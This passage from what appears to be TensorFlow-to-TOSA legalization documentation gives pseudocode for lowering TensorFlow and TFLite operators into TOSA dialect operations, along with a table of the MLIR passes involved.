            %op4_rshift_op3 = tosa.ARITHMETIC_RIGHT_SHIFT(%op3_abs_op1, %const_twenty)
            %op5_negate_op4 = tosa.NEGATE(%op4_rshift_op3)
            %op6_select_op2_op4_op5 = tosa.SELECT(%op2_ge_op1, %op4_rshift_op3, %op5_negate_op4)
            %op7_cast_op6 = tosa.CAST(%op6_select_op2_op4_op5) // i32/i48->%output.dtype
        }
    }
}
```

### lower_reversev2_op()

```
Value lower_reverse_v2_op(Value %tensor, Value %axis)
{
    Value %output = %tensor

    if (%axis.num_elements == 0) {
       %output = tosa.IDENTITY(%tensor)
    } else {
        for (int32 i = 0; i < %axis.shape[0]; i++) {
            size_t axis_val = positive_axis(%axis.as_constant()[i])
            %output = tosa.REVERSE(%output) {axis=%axis_val}
        }
    }

    return %output
}
```

### lower_round_op()

```
Value lower_round_op(Value %x)
{
    %half = tosa.CONST() {value={0.5}}
    %add = tosa.ADD(%x, %half)
    %output = tosa.FLOOR(%add)

    return %output
}
```

### lower_selectv2_op()

```
Value lower_selectv2_op(Value %condition, Value %t, Value %e, shape output_shape)
{
    // Reshape condition so that ranks match to support
    // broadcasting (if necessary)

    if (%condition.rank != output_shape.size) {
       vector <size_t> cond_shape = %condition.shape
       for (int32 i = 0; i < (output_shape.size - %condition.rank); i++) {
           cond_shape.push_front(1)
       }

       %condition = tosa.RESHAPE(%condition) {new_shape=cond_shape}
    }

    %output = tosa.SELECT(%condition, %t, %e)

    return %output
}
```

### lower_shape_op()

```
Value lower_shape_op(Value %input)
{
    vector <size_t> input_shape = %input.shape

    %shape = tosa.CONST() {value={input_shape}}
    return %shape
}
```

### lower_space_to_batch_nd_op()

```
Value lower_space_to_batch_nd_op(Value %input, Value %block_shape, Value %padding)
{

    size_t block_rank = %block.shape[0]
    size_t remaining_shape_rank = %input.rank - block_rank - 1;

    // Step 1. Pad based on paddings operand (flattened representation of [input.rank][2]-shaped array)
    vector <size_t> a1_padding
    a1_padding[0] = 0
    a1_padding[1] = 0

    for (int32 i = 0; i < %padding.shape[0]; i++) {
        a1_padding[i + 2] = %padding.as_constant()[i]
    }

    %a1_pad = tosa.PAD(%input) {padding=a1_padding}

    // Step 2. Reshape to
    // [batch + padded_shape[1] / block_shape[0], block_shape[0], ...
    //    padded_shape[M] / block_shape[M-1], block_shape[M-1]] +
    //    remaining_shape

    vector <size_t> a2_shape(1 + block_rank * 2 + remaining_shape_rank)
    a2_shape[0] = %input.shape[0]
    for (int32 i = 0; i < block_rank; i++) {
        a2_shape[1 + i * 2 + 0] = %a1_pad.shape[1 + i] / block_shape.as_constant()[i]
        a2_shape[1 + i * 2 + 1] = block_shape.as_constant()[i]
    }

    for (int32 i = 0; i < remaining_shape_rank; i++) {
        a2_shape[1 + block_rank * 2 + i] = %input.shape[1 + block_rank + i]
    }

    %a2_reshape = tosa.RESHAPE(%a1_pad) {new_shape=a2_shape}

    // Step 3 transpose to
    //  block-shape +
    //  [batch] +
    //  [padded_shape[1] / block_shape[0],
    // ...
    //  [padded_shape[M] / block_shape[M-1]] +
    //  remaining_shape
    vector <size_t> a3_perm(%a2_reshape.rank)
    size_t block_num_elems = 1

    for (int32 i = 0; i < block_rank; i++) {
        a3_perm[i] = 1 + 2 * i + 1
        a3_perm[block_rank + 1 + i] = 2 * i + 1
        block_num_elems *= %block.as_constant()[i]
    }

    a3_perm[block_rank] = 0
    for (int32 i = (1 + block_rank * 2); i < %a2_reshape.rank; i++) {
        a3_perm[i] = i
    }

    %a3_reshape = tosa.RESHAPE(%a2_reshape) {perm=a3_perm}

    // Step 4. Reshape transposed tensor to
    // [ batch * prod(block_shape)] +
    // [ padded_shape[1] / block_shape[0],
    //   ...,
    // padded_shape[M] / block_shape[M-1]] +
    // remaining_shape

    vector <size_t> a4_shape(%input.rank)
    a4_shape[0] = batch_size * block_num_elements

    for (int32 i = 0; i < block_rank; i++) {
        a4_shape[i + 1] = %a1_pad.shape[i + 1] / %block.as_constant()[i]
    }

    for (int32 i = 0; i < remaining_block_shape; i++) {
        a4_shape[1 + block_rank + i] = %input.shape[1 + block_rank + i]
    }

    %output = tosa.RESHAPE(%a3_reshape) {new_shape=a4_shape}

    return %output
}
```

### lower_space_to_depth_op()

```
Value lower_space_to_depth_op(Value %input, size_t block_size[], Format_t data_format)
{
    assert(data_format == 'NHWC')

    vector <size_t> a2_shape = {%input.shape[0],
                                %input.shape[1] / block_size[0],
                                %block_size[0],
                                %input_shape[2] / block_size[1],
                                %block_size[1],
                                %input_shape[3]}
    %a2_reshape = tosa.RESHAPE(%input) {new_shape=a2_shape}
    %a3_transpose = tosa.TRANSPOSE(%a2_reshape) {perm={0, 1, 3, 2, 4, 5}}

    vector <size_t> a4_shape = {%input.shape[0],
                                %input_shape[1] / block_size[0],
                                %input_shape[2] / block_size[1],
                                %input_shape[3] * block_size[0] * block_size[1]}
    %output = tosa.RESHAPE(%a3_transpose) {new_shape=%a4_shape}
    return %output
}
```

### lower_split_op()

```
Value lower_split_op(Value %value, size_t axis, size_t num_split)
{
    Value %output[]

    size_t slice_size = %value.shape[axis] / num_split

    for (int32 i = 0; i < num_split; i++) {
        vector <size_t> begin_vals, size_vals

        for (int32 j = 0; j < %value.rank; j++) {
            if (j == axis) {
               begin_vals.push_back(slice_size * i)
               size_vals.push_back(slice_size)
            } else {
               begin_vals.push_back(0)
               size_vals.push_bac(%value.shape[j])
            }

            %output[i] = tosa.SLICE(%value) {start=begin_vals, size=size_vals}
        }

    }

    %output_list = tosa.IDENTITYN(%output)
    return %output_list
}
```

### lower_splitv_op()

```
Value lower_splitv_op(Value %value, vector <size_t> size_split, size_t axis)
{
   Value %output[]

   size_t curr_split_start = 0

   for (int32 i = 0; i < size_split.size(); i++) {
       vector <size_t> begin_vals, size_vals

       for (int32 j = 0; j < %value.rank; j++) {
           if (j == axis) {
              begin_vals.push_back(curr_split_start)
              size_vals.push_back(size_split[i])
           } else {
              begin_vals.push_back(0)
              size_vals.push_back(input.shape[j])
           }
       }

       %output[i] = tosa.SLICE(%value) {start=begin_vals, size=size_vals}

       curr_split_start += size_split[i]
   }

    %output_list = tosa.IDENTITYN(%output)
    return %output_list
}
```

### lower_squeeze_op()

```
Value lower_squeeze_op(Value %input, vector<size_t> squeeze_dims)
{
    vector <size_t> reshape_dims

    if (squeeze_dims.size() == 0) {
       // Remove all 1-dims
       for (int32 i = 0; i < %input.rank; i++) {
           if (%input.shape[i] != 1) {
              reshape_dims.push_back(%input_shape[i])
           }
       }
    } else {
      // Remove the specified dimensions
      for (int32 i = 0; i < %input.rank; i++) {
          if (!squeeze_dims.find(i) || %input.shape[i] != -1) {
              reshape_dims.push_back(%input_shape[i])
          }
      }
    }

    %output = tosa.RESHAPE(%input) {new_shape=reshape_dims}

    return %output
}
```

### lower_strided_slice_op()

```
Value lower_strided_slice_op(Value %input, Value %begin_val, Value %end_val, Value %strides_val,
                               size_t begin_mask, size_t end_mask, size_t ellipsis_mask,
                               size_t new_axis_mask, size_t shrink_axis_mask)
{
    // Note: does not implement ellipsis_mask or reverse stride at this time
    assert(ellipsis_mask == 0)

    vector <size_t> begin(%begin_val.as_constant()), end(%end_val.as_constant()), strides(%strides_val.as_constant())
    vector <size_t> a1_start, a1_size, a2_shape, a3_start, a3_size, a4_shape

    for (int32 i = 0; i < %input.rank; i++) {
        if (begin_mask & (1 << i)) {
           begin[i] = 0
        }

        if (end_mask & (1 << i)) {
           end[i] = %input.shape[i]
        }

        // Wrap around index if begin and end are negative
        if (begin[i] < 0) {
           begin[i] += %input.shape[i]
        }

        if (end[i] < 0) {
           end[i] += %input.shape[i]
        }

        a1_start[i] = begin[i]
        a1_size[i] = end[i] - begin[i]

        a2_shape[i*2 + 0] = a1_size[i] / strides[i]
        a2_shape[i*2 + 1] = strides[i]

        a3_start[i*2 + 0] = 0
        a3_start[i*2 + 1] = 0

        if (shrink_axis_mask & (1 << i)) {
           a3_size[i*2 + 0] = 1
        } else {
           a3_size[i*2 + 0] = a1_size[i] / strides[i]
        }
        a3_size[i*2 + 1] = 1

        if (!(shrink_axis_mask & (1 << i))) {
           if (new_axis_mask & (1 << i)) {
              a4_shape.push_back(1)
           a4_shape.push_back((a1_size[i] / strides[i]))
        }
    }

    // Step 1: Slice the input array
    %a1_slice = tosa.SLICE(%input) {start=a1_start, size=a1_size}

    // Step 2: Reshape the sliced array: 2x as many dimensions as %input
    %a2_reshape = tosa.RESHAPE(%a1_slice) {new_shape=a2_shape}

    // Step 3: Take a slice of the [0] index along each of the strided dimensions (even dimensions)
    %a3_slice = tosa.SLICE(%a2_reshape) {start=a3_start, size=a3_size}

    // Step 4: Reshape the now-strided tensor back down to the desired number of dimensions
    %output = tosa.RESHAPE(%a3_slice) {new_shape=a4_shape}

    return %output
}
```

### lower_unpack_op()

```
Value lower_unpack_op(Value %value, size_t axis, uint64_t num)
{
    axis = positive_axis(axis)

    Value %output_arr[]

    // Step 1: transpose 'axis' to left-most dimension, if necessary
    Value %transposed_value

    if (axis != 0) {
       vector <size_t> perms

       perms.push_back(axis)
       for (int32 i = 0; i < %input.rank; i++) {
           if (i != axis)
              perms.push_back(i)
       }

       %transposed_value = tosa.TRANSPOSE(%value) {perms=perms}

   } else {
      %transposed_value = %value
   }

   // Step 2: Slice [N, A, B, C] into [N] [A, B, C]
   for (int32 i = 0; i < %transposed_value.rank; i++) {
       vector <size_t> begin_vals, size_vals, shape_vals

       begin_vals.push_back(i)
       size_vals.push_back(1)

       for (int32 j = 1; j < %transposed_value.rank; j++) {
           begin_vals.push_back(0)
           size_vals.push_back(transposed_value.shape[j])
           shape_vals.push_back(transposed_value.shape[j])
       }

       %slice = %tosa.SLICE(%transposed_value) {begin=begin_vals, size=size_vals}
       %output_arr[i] = %tosa.RESHAPE(%slice) {new_shape=shape_vals} {begin=begin_vals, size=size_vals}
   }

   // Combine array of sliced tensors into a list of tensors
   %output = tosa.IDENTITYN(%output_arr)
   return %output
}
```

### get_transpose_conv2d_padding_values_from_pad_type()

```
vector<int64> get_transpose_conv2d_padding_values_from_pad_type(tensorflow::Padding padding, tensorflow::TensorFormat data_format,
                                                         uint32 first_filter_spatial_dim, type input_type, type filter_type
                                                         vector strides, vector dilations)
{
    int64 pad_before, pad_after;
    vector<int64> computed_padding

    for (int32 i = 0; i < 2; i++) {
        int64 ifm_dim = GetTensorSpatialDimIndex(4, data_format, i);
        int64 ofm_dim = GetTensorSpatialDimIndex(4, data_format, i);
        int64 filter_dim = first_filter_spatial_dim + 1

        int64 ifm_size = input_shape[ifm_dim]
        int64 ofm_size = output_dims[ofm_dim]
        int64 filter_size = filter.shape[filter_dim]
        int64 dim_dilation = dilations[i]
        int64 dim_stride = strides[i]
        int32 effective_filter_size = (filter_size - 1) * dim_dilation + 1
        int32 total_padding = ((ifm_size - 1) * dim_stride + effective_filter_size - ofm_size)
        total_padding = total_padding > 0 ? total_padding : 0

        pad_before = total_padding / 2
        pad_after = total_padding - pad_before

        computed_padding.push_back(pad_before)
    }

    return computed_padding
}
```

### lower_fused_activation()

```
Value lower_fused_activation(Value %input, string activation)
{
    bool is_quantized = isa<QuantizedType>(%input.dtype) ? true : false

    if (is_quantized) {
        if (activation == "NONE") {
            return %input
        }
        else if (activation == "RELU") {
            int32 quantized_0 = %input.zp
            int32 quantized_max = %input.storage_max
            return tosa.CLAMP(%input) {min_int=quantized_0, max_int=quantized_max}
        }
        else if (activation == "RELU6") {
            int32 quantized_0 = %input.zp
            int32 quantized_6 = %input.zp + (6.0 / %input.scale)
            return tosa.CLAMP(%input) {min_int=quantized_0, max_int=quantized_6}
        }
        else if (activation == "RELU_N1_TO_1") {
            int32 quantized_n1 = %input.zp + (-1.0 / %input.scale)
            int32 quantized_1 = %input.zp + (1.0 / %input.scale)
            return tosa.CLAMP(%input) {min_int=quantized_n1, max_int=quantized_1}
        }
    }
    else {
        if (activation == "NONE") {
            return %input
        }
        else if (activation == "RELU") {
            return tosa.RELUN(%input) {max_fp=numeric_limit<float32>::max()}
        }
        else if (activation == "RELU6") {
            return tosa.RELUN(%input) {max_fp=6.0}
        }
        else if (activation == "RELU_N1_TO_1") {
            return tosa.CLAMP(%input) {min_fp=-1.0, max_fp=1.0}
        }
        else if (activation == "TANH") {
            return tosa.TANH(%input)
        }
    }
}
```

### get_table_const_tensor()

```
Value get_table_const_tensor(function func)
{
    array<int16, 513> table_array
    for (int32 i = -256; i <= 256; i++) {
        table_array[i] = func(i)
    }

    return tosa.CONST() {value=table_array}
}
```

### lower_gather_op()

```
Value lower_gather_op(Value %params, Value %indices, int32 batch_dims, int32 axis)
{
    assert batch_dims <= %indices.rank
    assert axis >= batch_dims

    int32 N = W = K = C = 1

    for (int32 i = 0; i < batch_dims; i++) N *= %params.shape[i]
    for (int32 i = batch_dims; i < %indices.rank; i++) W *= %indices.shape[i]
    K = %params.shape[axis]
    for (int32 i = batch_dims; i < axis; i++) C *= %params.shape[i]
    for (int32 i = (axis + 1); i < %params.rank; i++) C *= %params.shape[i]

    vector<int32> params_idx_batch, params_idx_left, params_idx_indices, params_idx_right
    for (int32 i = 0; i < %params.rank; i++) {
        if (i < batch_dims && i < axis)
            params_idx_batch.push_back(i)
        else if (i < axis)
            params_idx_left.push_back(i)
        else if (i < (axis + 1))
            params_idx_indices.push_back(i)
        else
            params_idx_right.push_back(i)
    }

    vector<int32> params_perm = {params_idx_batch, params_idx_left, params_idx_indices, params_idx_right}
    vector<int32> result_perm
    for (int32 i = 0; i < batch_dims; i++)
        result_perm.push_back(i)
    for (int32 i = 0; i < params_idx_left.size(); i++)
        result_perm.push_back(params_idx_left[i])
    for (int32 i = batch_dims; i < %indices.rank; i++)
        result_perm.push_back(i)
    for (int32 i = 0; i < params_idx_right.size(); i++)
        result_perm.push_back(params_idx_right[i])

    %const_params_perm = tosa.CONST() {value=params_perm}
    %const_result_perm = tosa.CONST() {value=result_perm}

    %op1_transpose_params = tosa.TRANSPOSE(%params, %const_params_perm)
    %op2_reshape_op1 = tosa.RESHAPE(%op1_transpose_params) {shape={N,K,C}}
    %op3_reshape_indices = tosa.RESHAPE(%indices) {shape={N,W}}
    %op4_gather_op2_op3 = tosa.GATHER(%op2_reshape_op1, %op3_reshape_indices)
    %op5_reshape_op4 = tosa.RESHAPE(%op4_gather_op2_op3) {shape={N,W,C}}
    %op6_transpose_op5 = tosa.TRANSPOSE(%op5_reshape_op4, %const_result_perm)
}
```

### lower_gather_nd_op()

```
Value lower_gather_nd_op(Value %params, Value %indices)
{
    int32 N = W = K = C = ND = 1

    ND = %indices.shape[%indices.rank - 1]

    assert ND < %params.rank

    for (int32 i = 0; i < (%indices.rank - 1); i++) W *= %indices.shape[i]
    for (int32 i = 0; i < ND; i++) K = %params.shape[i]
    for (int32 i = ND; i < %params.rank; i++) C *= %params.shape[i]

    vector<int32> flatten_coeff_vec
    for (int32 i = 0; i < ND; i++) flatten_coeff_vec.push_back(i)
    flatten_coeff_vec.push_back(1)

    %const_flatten_coeff = tosa.CONST() {value=flatten_coeff_vec}
    %op1_reshape_params = tosa.RESHAPE(%params) {shape={N,K,C}}
    %op2_reshape_indices = tosa.RESHAPE(%indices) {shape={W,ND}}
    %op3_mul_op2_flatten_coeff = tosa.MUL(%op2_reshape_indices, %const_flatten_coeff)
    %op4_rsum_op3 = tosa.REDUCE_SUM(%op3_mul_op2_flatten_coeff) {axis=1}
    %op5_reshape_op4 = tosa.RESHAPE(%op4_rsum_op3) {shape={N,W}}
    %op6_gather_op1_op5 = tosa.GATHER(%op1_reshape_params, %op5_reshape_op4)
    %op7_reshape_op6 = tosa.RESHAPE(%op6_gather_op1_op5) {shape={N,W,C}}
}
```

### lower_one_hot_op()

```
Value lower_one_hot_op(Value %indices, Value %depth, Value %on_value, Value %off_value, int32 axis)
{
    int32 N = W = C = 1
    int32 K = %depth.as_constant()
    int32 left_dim = right_dim = 1
    for(int32 i : %indices.rank) {
        int32 dim = %indices.shape[i]
        N *= dim
        if (i >= axis)
            right_dim *= dim
        else
            left_dim *= dim
    }

    %perm_const = tosa.CONST() {value={0, 2, 1}}
    %op1_reshape_on_value = tosa.RESHAPE(%on_value) {shape={1, 1, 1}}
    %op2_tile_op1 = tosa.TILE(%op1_reshape_on_value) {multiples={N, W, C}}
    %op3_reshape_off_value = tosa.RESHAPE(%off_value) {shape={1, 1, 1}}
    %op4_tile_op1 = tosa.TILE(%op3_reshape_off_value) {multiples={N, K, C}}
    %op5_reshape_indices = tosa.RESHAPE(%indices) {shape={N, W}}
    %op6_scatter_op4_op5_op2 = tosa.SCATTER(%op4_tile_op1, %op5_reshape_indices, %op2_tile_op1)
    %op7_reshape_op6 = tosa.RESHAPE(%op6_scatter_op4_op5_op2) {shape={left_dim, right_dim, K}}
    %op8_transpose_op7 = tosa.TRANSPOSE(%op7_reshape_op6, %perm_const)
    %op9_reshape_op8 = tosa.RESHAPE(%op8_transpose_op7) {shape=%output.shape}
}


## MLIR Passes Management

Legalization is built on multiple MLIR passes.

| MLIR Pass Name            | Input Dialect | Output Dialect | Description     |
| ------------------------- | ------------- | -------------- | --------------- |
| legalize_tf               | TensorFlow    | TOSA           | Legalize        |
:                           :               :                : TensorFlow      :
:                           :               :                : dialect to TOSA :
:                           :               :                : dialect         :
| fuse_tf_bias              | TensorFlow    | TOSA           | Mapping         |
:                           :               :                : tf.BiasAdd +    :
:                           :               :                : tf.Conv2D to    :
:                           :               :                : tosa.CONV2D     :
| legalize_tfl              | TensorFlow    | TOSA           | Legalize        |
:                           : Lite          :                : TensorFlow Lite :
:                           :               :                : dialect to TOSA :
:                           :               :                : dialect         :
| convert_tfl_uint8         | TensorFlow    | TensorFlow     | Convert         |
:                           : Lite          : Lite           : quantized uint8 :
:                           :               :                : graph to int8   :
:                           :               :                : graph           :

TF to TOSA legalization could be summarized by following pseudocode:

```

void legalize_tf_to_tosa(mlir::Module module) { mlir::PassManager pm

```
// other MLIR passes to optimize TF

pm.addPass(fuse_tf_bias)
pm.addPass(legalize_tf)

// other MLIR passes to optimize TOSA
```

} ```

TFLite to TOSA legalization could be summarized by following pseudocode:

```
void legalize_tfl_to_tosa(mlir::Module module)
{
    mlir::PassManager pm

    // other MLIR passes to optimize TFLite

    pm.addPass(convert_tfl_uint8)
    pm.addPass(legalize_tfl)

    // other MLIR passes to optimize TOSA
}
```

Each of the passes is described in more detail in the subsequent chapters.

## TensorFlow MLIR Dialect Legalization (legalize_tf)

### tf.Abs

This operator is trivially lowered to tosa.ABS

### tf.AddN

**TensorFlow Dialect**

```
%output = tf.AddN(%inputs)
```

**TOSA Lowering**

```
%output = tosa.ADD(%inputs:0, %inputs:1)
for (int32 i = 2; i < %inputs.size; i++) {
    %output = tosa.ADD(%inputs:i, %output)
}
```

### tf.Add

Element-wise addition.

**TensorFlow Dialect**

```
%output = tf.Add(%x, %y)
```

**TOSA Lowering** This operator is trivially lowered to tosa.ADD.

### tf.Addv2

Element-wise addition.

**TensorFlow Dialect**

```
%output = tf.Addv2(%x, %y)
```

**TOSA Lowering** This operator is trivially lowered to tosa.ADD.

### tf.All

Computes the "logical and" of elements across dimensions of a tensor.

**TensorFlow Dialect**

```
%output = tf.all(%input, %reduction_indicies) {keep_dims}
```

**TOSA Lowering**

```
%output = lower_reduce_op<tosa.REDUCE_ALL>(%input, %output.shape, %reduction_indicies, keep_dims)
```

### tf.Any

Computes the "logical or" of elements across dimensions of a tensor.

**TensorFlow Dialect**

```
%output = tf.any(%input, %reduction_indicies) {keep_dims}
```

**TOSA Lowering**

```
%output = lower_reduce_op<tosa.REDUCE_ANY>(%input, %output.shape, %reduction_indicies, keep_dims)
```

### tf.ArgMax

Returns the index with the largest value across the given axis of the input
tensor.

**TensorFlow Dialect**

```
%output = tf.ArgMax(%input, %dimension)
```

**TOSA Lowering**

```
int64 axis = positive_axis(%dimension)
%output = tosa.ARGMAX(%input) {axis=axis}
```

### tf.ArgMin

Returns the index with the smallest value across the given axis of the input
tensor.

**TensorFlow Dialect**

```
%output = tf.ArgMin(%input, %dimension)
```

**TOSA Lowering**

No TOSA lowering defined.

### tf.Assert

Asserts that the given condition is true.

**TensorFlow Dialect**

```
%output = tf.Assert(%condition, %summarize)
```

**TOSA Lowering**

No TOSA lowering defined.

### tf.AssignAddVariableOp

Adds a value to the current value of a variable.

**TensorFlow Dialect**

```
%output = tf.AssignAddVariableOp(%resource, %value, %dtype)
```

**TOSA Lowering**

No TOSA lowering defined.

### tf.AssignSubVariableOp

Subtracts a value to the current value of a variable.

**TensorFlow Dialect**

```
%output = tf.AssignSubVariableOp(%resource, %value, %dtype)
```

**TOSA Lowering**

No TOSA lowering defined.

### tf.AssignVariableOp

Assigns a new value to a variable.

**TensorFlow Dialect**

```
%output = tf.AssignVariableOp(%resource, %value, %dtype)
```

**TOSA Lowering**

No TOSA lowering defined.

### tf.AvgPool

Performs average pooling on the input.

**TensorFlow Dialect**

```
%output = tf.AvgPool(%value) {ksize, strides, padding, data_format}
```

**TOSA Lowering**

```
assert(data_format == "NHWC")

tosa_padding =
     get_padding_values_from_pad_type(%input, ksize, padding, data_format,
                                      FORMAT_OHWI, strides, {1, 1, 1, 1})
%output = tosa.AVG_POOL2D(%value) {ksize=ksize, strides=strides, padding=tosa_padding}
```

### tf.BatchMatMul

Multiplies slices of two tensors in batches.

**TensorFlow Dialect**

```
%output = tf.BatchMatMul(%x, %y, %adj_x, %adj_y)
```

**TOSA Lowering**

No TOSA lowering defined.

### tf.BatchMatMulV2

Multiplies slices of two tensors in batches.

**TensorFlow Dialect**

```
%output = tf.BatchMatMulV2(%x, %y, %adj_x, %adj_y)
```

**TOSA Lowering**

No TOSA lowering defined.

### tf.BatchNormWithGlobalNormalization

✗ Deprecated operator.

### tf.BatchToSpaceND

BatchToSpaceND for N-D tensors of type T.

**TensorFlow Dialect**

```
%output = tf.BatchToSpaceND(%input, %block_shape, %crops)
```

**TOSA Lowering**

```
%output = lower_batch_to_space_nd_op(%input, %block_shape, %crops, output.shape)
```

### tf.BiasAddGrad

Training profile: TOSA lowering not yet defined.

### tf.BiasAdd

Add bias to value.

**TensorFlow Dialect**

```
%output = tf.BiasAdd(%bias, %value) {data_format}
```

**TOSA Lowering**

```
assert(data_format == 'NHWC')
%output = tosa.ADD(%value, %bias)
```

### tf.BitCast

Bitcasts a tensor from one type to another without copying data.

**TensorFlow Dialect**

```
%output = tf.BitCast(%input, %dtype)
```

**TOSA Lowering**

No TOSA lowering defined.

### tf.BitwiseAnd

This operator is trivially lowered to tosa.BITWISE_AND.

### tf.BitwiseOr

This operator is trivially lowered to tosa.BITWISE_OR.

### tf.BroadcastGradientArgs

Training profile: TOSA lowering not yet defined.

### tf.BroadcastTo

No TOSA lowering defined.

### tf.Cast

This operator is trivially lowered to tosa.CAST.

### tf.Ceil

This operator is trivially lowered to tosa.CEIL.

### tf.CheckNumerics

No TOSA lowering defined.

### tf.ComplexAbs

No TOSA lowering defined.

### tf.Complex

No TOSA lowering defined.

### tf.ConcatOffset

No TOSA lowering defined. Training profile: TOSA lowering not yet defined.

### tf.Concat

No TOSA lowering defined.

### tf.ConcatV2

Concatenates tensors along one dimension.

**TensorFlow Dialect**

```
%output = tf.ConcatV2(%values, %axis)
```

**TOSA Lowering**

```
%output = lower_concatv2_op(%values, %axis)
```

### tf.Conj

No TOSA lowering defined.

### tf.Const

This operator is trivially lowered to tosa.CONST.

### tf.Conv2DBackpropFilter

No TOSA lowering defined.

### tf.Conv2DBackpropInput

Computes the gradients of convolution with respect to the input.

**TensorFlow Dialect**

```
%output = tf.Conv2DBackpropInput(%input_sizes, %filter, %out_backprop) {strides, use_cudnn_on_gpu, padding, explicit_paddings, data_format, dilations}
```

**TOSA Lowering**

```
// Transpose filter from HWIO to OHWI
%tosa_filter = tosa.TRANSPOSE(%filter) {perms={2, 0, 1, 3}}

vector output_shape

for (int32 i = 0; i < input_sizes.size(); i++) {
   output_shape.push_back(input_size[i])
}

if (%padding == "EXPLICIT") {
   tosa_padding =
       get_padding_values_from_explicit_pad_attr(explict_padding, data_format)
} else {
    tosa_padding =
        get_transpose_conv2d_padding_values_from_pad_type(%input_sizes, %filter, output_shape, padding, data_format, FORMAT_HWIO, strides, dilations)
}

// Create a zero bias tensor
%zero_bias = tosa.CONST() {value={0}}
%output = tosa.TRANSPOSE_CONV2D(%out_backprop) {weight=%tosa_filter, bias=%zero_bias, outpad=tosa_pading, stride=strides, dilation==dilations, out_shape=out_shape}
```

### tf.Conv2D

Computes a 2-D convolution given 4-D input and filter tensors.

**TensorFlow Dialect**

```
%output = tf.Conv2D(%input, %filter) {strides, padding, explicit_paddings, data_format, dilations}
```

**TOSA Lowering**

```
assert(data_format == "NHWC")

// Transpose filter from HWIO to OHWI
%filter_tranpose = tosa.TRANSPOSE(%filter {perms={3, 0, 1, 2}}

if (padding == "EXPLICIT") {
   tosa_padding =
       get_padding_values_from_explicit_pad_attr(explict_padding, data_format)
} else {
    %tosa_padding =
        get_padding_values_from_pad_type(%input, %filter.shape, padding, data_format,
                                         FORMAT_HWIO, strides, dilations)
}

// Create a zero bias tensor
%zero_bias = tosa.CONST() {value={0}}

%output = tosa.CONV2D(%input, %filter_transpose, %zero_bias) {padding=tosa_padding, stride=strides, dilation=dilations}
```

### tf.Conv3D

TOSA lowering to tosa.CONV3D to be defined.

### tf.Cos

No TOSA lowering defined.

### tf.CrossReplicaSum

No TOSA lowering defined.

### tf.DepthToSpace

DepthToSpace for tensors of type T.

**TensorFlow Dialect**

```
%output = tf.DepthToSpace(%input) {block_size, data_format}
```

**TOSA Lowering**

```
%output = lower_depth_to_space_op(%input, block_size, data_format)
```

### tf.DepthwiseConv2dNative

Computes a 2-D depthwise convlution given 4-D input and filter tensors.

**TensorFlow Dialect**

```
%output = tf.DepthwiseConv2dNative(%input, %filter) {strides, padding, data_format, dilations}
```

**TOSA Lowering**

```
if (padding == "EXPLICIT") {
   tosa_padding =
       get_padding_values_from_explicit_pad_attr(explict_padding, data_format)
} else {
    tosa_padding =
        get_padding_values_from_pad_type(%input, %filter.shape, padding, data_format,
                                         FORMAT_HWIO, strides, dilations)
}

bias_dim = %filter.shape[2] * %filter.shape[3]

// Create a zero-bias tensor
%zero_bias = tosa.CONST() {value={0} * bias_dim}

%output = tosa.DEPTHWISE_CONV2D(%input, %filter, %zero_bias) {stride=strides, dilation=dilations, padding=padding}
```

### tf.DivNoNan

No TOSA lowering defined.

### tf.Div

No TOSA lowering defined.

### tf.DynamicStitch

No TOSA lowering defined.

### tf.Einsum

No TOSA lowering defined.

### tf.Elu

Computes exponential linear: exp(features) - 1 if &lt;0, features otherwise

**TensorFlow Dialect**

```
%output = tf.Elu(%features)
```

**TOSA Lowering**

```
%output = lower_elu_op(%features)
```

### tf.EmptyTensorList

No TOSA lowering defined.

### tf.Equal

Returns the truth value of (x == y) element-wise with broadcasting.

**TensorFlow Dialect**

```
%output = tf.Equal(%x, %y)
```

**TOSA Lowering** This operator is trivially lowered to tosa.EQUAL.

### tf.Exp

This operator is trivially lowered to tosa.EXP.

### tf.ExpandDims

Inserts a dimension of 1 into a tensor’s shape

**TensorFlow Dialect**

```
%output = tf.ExpandDims(%input, %axis)
```

**TOSA Lowering**

```
%output = lower_expand_dims(%input, %axis.to_constant())
```

### tf.FakeQuantWithMinMaxArgs

Fake-quantize the 'inputs' tensor, type float to 'outputs' tensor of same type.

**TensorFlow Dialect**

```
%output = tf.FakeQuantWithMinMaxArgs(%inputs) {min, max, num_bits, narrow_range}
```

**TOSA Lowering**

```
%output = lower_fake_quant_op(%inputs, %min, %max, %num_bits, %narrow_range)
```

### tf.FakeQuantWithMinMaxVars

Fake-quantize the 'inputs' tensor of type float via global flats sclars min.

**TensorFlow Dialect**

```
%output = tf.FakeQuantWithMinMaxVars(%inputs, %min, %max) {num_bits, narrow_range}
```

**TOSA Lowering**

```
%output = lower_fake_quant_op(%inputs, %output.type, %min.to_constant(), %max.to_constant(), num_bits, narrow_range)
```

### tf.FakeQuantWithMinMaxVarsPerChannel

Fake-quantize the 'inputs' tensor of type float and one of the shapes \[d\].

**TensorFlow Dialect**

```
%output = tf.FakeQuantWithMinMaxVarsPerChannel(%inputs, %min, %max) {num_bits, narrow_range}
```

No TOSA lowering defined.

### tf.Fill

Creates a tensor filled with a scalar value

**TensorFlow Dialect**

```
%output = tf.Fill(%dims, %value)
```

**TOSA Lowering**

```
int64 total_size = 1

for (int32 i = 0; i < %dims.shape[0]; i++) {
    total_size *= %dims[i]
}

vector<%value.dtype> fill_arr(total_size, %value)

%output = tosa.CONST() {value={fill_arr}}
```

### tf.FloorDiv

Returns x // y element-wise.

**TensorFlow Dialect**

```
%output = tf.FloorDiv(%x, %y)
```

**TOSA Lowering**

```
%output = lower_floor_div(%lhs, %rhs)
```

### tf.FloorMod

Returns element-wise remainder of division when x &lt; 0 xor x &lt; y is true.

**TensorFlow Dialect**

```
%output = tf.FloorMod(%x, %y)
```

**TOSA Lowering**

```
%output = lower_floor_mod(%lhs, %rhs)
```

### tf.Floor

This operator is trivially lowered to tosa.FLOOR.

### tf.FusedBatchNormGrad

Training profile: TOSA lowering not yet defined.

### tf.FusedBatchNormGradV2

Training profile: TOSA lowering not yet defined.

### tf.FusedBatchNormGradV3

Training profile: TOSA lowering not yet defined.

### tf.FusedBatchNorm

Batch normalization.

**TensorFlow Dialect**

```
%output = tf.FusedBatchNorm(%x, %scale, %offset, %mean, %variance) {epsilon, data_format, is_training}


assert(data_format == 'NHWC')
assert(is_training == false)

%epsilon_const = tosa.CONST() {value={epsilon}}

%op1 = tosa.SUB(%x, %bmean)
%op2 = tosa.ADD(%variance, %epsilon_const)
%op3 = tosa.RSQRT(%op2)
%op4 = tosa.MUL(%op1, %op3)
